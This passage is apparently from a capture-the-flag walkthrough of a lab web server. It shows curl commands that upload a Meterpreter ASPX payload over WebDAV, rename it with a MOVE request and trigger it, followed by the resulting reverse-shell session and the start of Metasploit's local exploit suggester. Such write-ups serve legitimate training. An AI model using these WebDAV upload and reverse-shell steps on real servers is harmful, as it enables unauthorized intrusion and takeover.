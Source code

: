Trigger it, and it fails:

![1551910306439](https://0xdfimages.gitlab.io/img/1551910306439.png)

Why? If I upload `met.txt` again, I can see that the whitespace is all jacked up:

![1551910357954](https://0xdfimages.gitlab.io/img/1551910357954.png)

I’ll upload again, this time using `--data-binary` to preserve endlines and other control characters:

```

root@kali# curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 

```

On refreshing `met.txt`, I see it looks much cleaner:

![1551910418743](https://0xdfimages.gitlab.io/img/1551910418743.png)

Now I’ll move the file and trigger it:

```

root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt 
root@kali# curl http://10.10.10.15/met.aspx

```

And get a shell:

```

[*] Sending stage (179779 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.15:1032) at 2019-03-06 17:05:07 -0500

meterpreter >

```

## Privesc to System

### Enumeration

On those older boxes, I am more likely to checkout local exploits, and Metasploit has a nice module for that, `post/multi/recon/local_exploit_suggester`:

```

meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search local_exploit

Matching Modules
================

   Name                                      Disclosure Date  Rank    Check  Description
   ----                                      ---------------  ----    -----  -----------
   post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
```
